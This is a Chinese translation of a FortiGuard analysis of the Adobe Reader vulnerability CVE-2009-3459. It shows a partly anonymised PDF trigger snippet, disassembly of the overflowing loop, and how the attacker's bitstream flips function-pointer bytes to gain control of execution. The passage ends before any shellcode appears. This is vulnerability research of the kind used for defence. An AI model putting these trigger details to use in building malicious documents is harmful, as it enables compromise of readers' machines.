










# 【翻译】对 PDF \_CVE-2009-3459 分析文章的翻译

> 原文：[`www.pediy.com/kssd/pediy10/100735.html`](https://www.pediy.com/kssd/pediy10/100735.html)

翻译附注：一直在分析关于 PDF 方面的漏洞，`CVE-2009-3459` 是之前刚爆出来的漏洞，网上有这么一篇分析文章

自己试着翻译了一遍，并记录为以下文章，其中必然有语句不通，翻译错误的地方，还望指正。

在黑防上看到 `泉哥` 很多篇翻译的文章，请多多指点。

另附上：PDF 格式及 doc 格式文档各一份

Smashing Adobe's Heap Memory Management Systems for... Profit

原文地址为：

http://www.fortiguard.com/analysis/pdfanalysis.html

深入分析最新 PDF 0day 利用

2009. October.17

Research and Analysis: Haifei Li

Editors: Guillaume Lovet, Derek Manky（作者和编辑，不作翻译）

## 目录

导言

概览

1. 漏洞

2. 开发

2.1 神秘函数

2.2 控制执行流程

2.3 填充堆

2.4 击溃 PDF 堆内存管理系统

3. 记录嵌入的 ShellCode 的行为

结论

## 导言

正如一份最近的 Blog 文章中的记录所指出的那样，通过比较计算机犯罪形式，安全行业对 PDF 漏洞的关注程度在持续不断的提升当中。

最近，一个高危险级别的新 PDF 0day 漏洞（`CVE-2009-3459`），在 Adobe 的 Blog 中被公布出来，在网络中正被积极利用。

至截稿时，此漏洞的补丁已经发布，并且我们强烈建议使用它。与此同时，修补此漏洞，安全厂商（AV(杀毒软件)，IDS(入侵检测系统)，IPS(入侵防御系统)，等等）必须做出调整来阻止恶意 PDF 文档利用此漏洞。

为此，为深入了解这个漏洞，本篇文档提供了一篇对网络上截获的恶意 PDF 的分析。

## 概述

PDF 格式文档大都有标签，参数和流组成，并且可以包含 JavaScript 代码。这个漏洞是 Adobe Reader 在处理一个特定参数触发的一个整数溢出漏洞。

当前，整数溢出是相当普遍的，但是利用它去执行任意代码却往往是非常困难并且相当有技巧性。成功利用此漏洞的人，采用了一中新颖的策略（尽管并不普遍，它只能在 Adobe 公司的应用程序上利用）。有 5 个基本步骤在这个利用中：

● 一个参数被设置成一个特定的极大值在一个 PDF 文档中，Adobe Reader 在一个操作中使用这个参数，触发整数溢出。后果: 操作的结果值小于程序通过参数值所预期的大小。

● 溢出值被用于在堆中分配一段缓冲区，这段缓冲区会因此小于给定的参数值。

● 程序沿着正常流程，在 PDF 文档中，上述被溢出调整的调整的内容会按照 Bit-Encoded 编码在 PDF 文档的一个流中。一旦处理的流大于被分配的小的缓冲区，结果就回在堆内存中被覆盖（堆溢出），

● BitStream（比特流）控制的“调整”被攻击者给定（在 PDF 文档中），它精心特定的覆盖堆内存一段极小的部分。

由于可能的“调整”非常有限，最理想的情况是攻击者使用一个单字节来改变一个函数的指针（在堆上的一个 C 语言结构）。这个函数指针最终作为恶意代码（控制 EIP）的一个传输点被调用。

当然确保恶意代码每次都会执行（不被 Crash,等等）无疑是最难的一部分。如何确保在执行流程紧接着函数指针最终被改变后的而已代码仍然有效？

● 通过填充填充 NOP 块，使其执行到 ShellCode。这是理想的 JavaScript 嵌入 PDF 文档（典型的堆填充方法）。

这些步骤会在 1,2 节进行分析。

有人会说，当攻击者获得程序执行流程后会做什么仅仅是理论上的。这的确涉及到具体攻击实例，不同于一般的攻击利用：攻击部分代码将会在第三节进行分析。

## 1：漏洞

触发初始整数溢出（此利用样本）在恶意 PDF 文档的如下位置：

代码:
```
<<
/ParamX 1073741838      //关键参数(此处是经过替换的，原参数为 Colors)
/>>
/Length 299
/Filter /FlateDecode
/>>
stream
[stream encoded by flate, original stream is: 00 00 20 00 00 00 10]
[流已经用 flate 编码，原流为 00 00 20 00 00 00 10]
endstream
```

`ParamX`(参数 X)就是关键参数，且被设置为 `1073741838`(十六进制为 `0x4000000E`). 需要注意的是编码流是不重要的，因为当溢出触发时这个执行点就已经被解码（Decode，即“deflated”）。

原来解码的流为: 00 00 20 00 00 00 10。



图 1：漏洞的溢出点

如图 1 所示，程序在 `0x009F60A5h` 指令处（红色高亮部分）使用参数值 `0x4000000E`(保存在 `ECX` 中)，假如每个对象分配一个 `DWORD`（4 字节），这条指令的目的似乎是以字节的形式计算出需要的内存大小，它以关键的参数进行计算（意思就是说这个参数最有可能表示有许多对象）。

这就是为什么参数值会是 4 的倍数，而且就是在这儿触发的整数溢出。

图 1 中红字黑底的指令 `0x009F60E5h` 是在内存中使用溢出值进行分配的例程（同时 `EDX` 的值和 `ECX` 在 `0x0090F6D8h` 都为 0）：

`acro_allocate_routine(0x4000000E * 4 +0 x48)` == `"acro_allocate_routine(0x80)"`

注意：我们将会在第三节讨论“`acro_allocate_routine`”。

结果，分配了一个大小为 `0x80` 的堆块；这个值会在 `0x009F7ED0h` 函数处进行处理，已经在图 2 中高亮标示出：



图 2：堆溢出之前情况

这个函数在下面分析列出，为了更好的理解这些内容（列表中最重要的部分），请注意下面的注释。

1). `lpBuff` 是堆块的指针(长度为 `0x80`).

2). `bits_original_stream` 为解码流的比特(`Bits`)数量.

3). `v)counter` 是计数器的当前值，从 0 到 `bits_original_stream-1`

再次，解码的流为"`00 00 20 00 00 00 10`"，意思是 `bits_original_stream` 为 `0x38`(7*8).

如下：

代码:
```
.text:003A7FB4  loc_3A7FB4:                             ; CODE XREF: sub_3A7ED0+1CDj
.text:003A7FB4                 mov     edx, [esp+3Ch+var_C] ; loop starts
.text:003A7FB8                 mov     eax, [esp+3Ch+arg_0]
.text:003A7FBC
.text:003A7FBC  loc_3A7FBC:                             ; CODE XREF: sub_3A7ED0+E2j
.text:003A7FBC                 cmp     eax, ecx   ; if v_counter>bits_original_stream,
.text:003A7FBE                 jge     loc_3A80A3  ; break from the loop
.text:003A7FC4                 mov     ebp, [esi+0Ch]  ; [esi+0Ch] is 4000000Eh here
.text:003A7FC7                 add     eax, edi    ; edi is 0
.text:003A7FC9                 add     eax, edx    ; edx is 0
.text:003A7FCB                 cdq
.text:003A7FCC                 idiv    ebp  ; v_counter idiv 4000000Eh
.text:003A7FCE                 lea     eax, [ecx+edi]  ; edx became v_counter
.text:003A7FD1                 mov     ecx, [esi+10h]
.text:003A7FD4                 cmp     ecx, 3
.text:003A7FD7                 lea     ebx, [esi+edx*4+44h]          ; lpBuff + v_counter*4 + 0x44
...
.text:003A805C  loc_3A805C:                             ; CODE XREF: sub_3A7ED0+168j
.text:003A805C                 mov     edx, [ebx]
.text:003A805E                 push    edx
.text:003A805F                 mov     edx, [esp+40h+var_20]
.text:003A8063                 shl     eax, cl
.text:003A8065                 push    edx
.text:003A8066                 mov     edx, [esp+44h+var_28]
.text:003A806A                 shl     ebp, cl
.text:003A806C                 push    ebp
.text:003A806D                 push    eax
.text:003A806E                 mov     eax, [esp+4Ch+arg_0]
.text:003A8072                 add     eax, edi
.text:003A8074                 shl     eax, cl
.text:003A8076                 push    edx
.text:003A8077                 call    sub_9D7850      ; will be analyzed later
.text:003A807C                 add     esp, 14h
.text:003A807F
.text:003A807F  loc_3A807F:                             ; CODE XREF: sub_3A7ED0+18Aj
.text:003A807F                 mov     [ebx], eax   ; overwrite the DWORD with the return value
.text:003A8081
.text:003A8081  loc_3A8081:                             ; CODE XREF: sub_3A7ED0+149j
.text:003A8081                                         ; sub_3A7ED0+163j
.text:003A8081                 mov     eax, [esp+3Ch+arg_0]
.text:003A8085                 add     [esp+3Ch+var_18], 2
.text:003A808A                 add     [esp+3Ch+var_1C], 1
.text:003A808F                 mov     ecx, [esp+3Ch+arg_4]
.text:003A8093                 add     eax, 1          ; v_counter++
.text:003A8096                 cmp     eax, [esi+0Ch] ; [ESI+0C]=0x4000000E, so keep looping
.text:003A8099                 mov     [esp+3Ch+arg_0], eax
.text:003A809D                 jl      loc_3A7FB4      ; loop
```

这段函数做了什么？伪代码的形式能更容易的理解它

代码:
```
for(;;) {
  if( v_counter >  bits_original_stream ) break;
  tmp_counter = v_counter % ParamX;
  lpCurrent = lpBuff + tmp_counter * 4 + 0x44;
  iRetVal = mystery_func( *lpCurrent, variables...);
  *lpCurrent = iRetVal;
  v_counter++;
  if( v_counter >= ParamX ) break;
```

本质上，函数在略过了缓冲区的每个 `DWORD`（请记住，这个缓冲区以参数 X 的每个对象都包含一个 `DWROD`），在指令 `0x003A807Fh` 处，神秘函数的返回值覆盖了它（神秘依旧，我们将在第二节分析）。

这是堆溢出触发的地方，同时也是整个漏洞利用操作的核心。因为是整数溢出，缓冲区实际上非常小于预期值，它（缓冲区，译者注）应当包含参数 X 的每个对象的一个 `DWORD`，事实并非如此，当计数器枚举对象时，它超出了缓冲区的结尾。

值得注意的是，因为参数 X 为一个极大的值，循环退出的条件：计数器到达 `bits_original_stream` 即 `v_counter>=ParamX`,永远不会发生。接着我们将会看到原来的比特流会在神秘函数中被使用，某一个对象中。

内存的整个长度被改写为 `bits_original_stream*4`（从 `0x44` 的偏移开始）：

`0x38*4=0xE0`

考虑到之前分配的堆块（图 1）大小只有 `0x80`,此函数在分配堆之后会覆盖 `0xA4(0x44+0xE0-0x80)` 字节的数据。

通过监视这 `0xA4` 字节的内存溢出，实际上只修改了内存中的一小部分。这会在图 3 中展示



很明显的，在对比图 2（堆溢出之前），我们可以看到只有 2 处 `DWORDs` 因堆溢出被修改（注意：偏移是相对于被分配的堆块的结尾）。

1). 偏移 `0x0C`, 从 `0x0121676C` 变为 `0x0121676D`.

2). 偏移 `0x90`, 从 `0x0124DA40` 变为 `0x0124DA41`.

这 2 处轻微的改变在这个漏洞利用的逻辑核心中是如何触发的并且原理是什么，将在下一节讨论。

## 2：漏洞利用

我们从上所知，内存溢出是有那个神秘函数使用特定的解码流（攻击者提供）导致的。

### 2.1：神秘函数

代码:


```
.text:009D7884                 mov     esi, edi        ; edi is v\_counter
.text:009D7886                 sar     esi, 3          ; v\_counter/8
.text:009D7889                 add     esi, \[esp+1Ch+lp\_original\_stream\] ; pass how many bytes
.text:009D788D                 mov     ecx, edi
.text:009D788F                 movzx   edx, byte ptr \[esi\] ; read next byte
.text:009D7892                 and     ecx, 7      ; pass how many bits in the next byte
.text:009D7895                 mov     eax, 8
.text:009D789A                 sub     eax, ecx
.text:009D789C                 sub     eax, ebp        ; ebp is always 1
.text:009D789E                 mov     cl, al
.text:009D78A0                 shr     edx, cl      ; set the lowest bit as the corresponding bit
.text:009D78A2                 and     edx, \[esp+1Ch+var\_8\] ; var\_8 is always 1, so corresponding bit is the DWORD value
.text:009D78A6                 cmp     \[esp+1Ch+arg\_C\], 0 ; arg\_C is always 0
.text:009D78AC                 jz      short loc\_9D78BC ; jump


.text:009D78BC loc\_9D78BC:                             ; CODE XREF: sub\_9D7850+5Cj
.text:009D78BC                 mov     ecx, \[esp+1Ch+arg\_10\]; get the old\_DWORD
.text:009D78C0                 add     ecx, edx        ; new\_DWORD = old\_DWORD + corresponding-bit
.text:009D78C2                 mov     edx, ecx
.text:009D78C4
.text:009D78C4 loc\_9D78C4:                             ; CODE XREF: sub\_9D7850+6Aj
.text:009D78C4                 and     dl, \[esp+1Ch+var\_9\]
.text:009D78C8                 add     edi, \[esp+1Ch+arg\_8\]
.text:009D78CC                 mov     \[esp+1Ch+arg\_10\], ecx   ; save the new\_DWORD

.text:009D78E5                 mov     eax, \[esp+18h+arg\_10\]   ; return the new\_DWORD

```

简而言之，函数使用计数器的当前值在解码流中检索一个比特 `Bit`, 如前所述，我们认为缓冲区的每个对象在比特流中存在一个相对应的比特，我们称之为 `corresponding_bit` `对应比特,译者注`。

这个比特会转换成一个 `DWORD` 并且加上之前的 `DWORD` `表现为一个对象` 被处理：

`new_DWORD = old_DWORD + corresponding_bit`

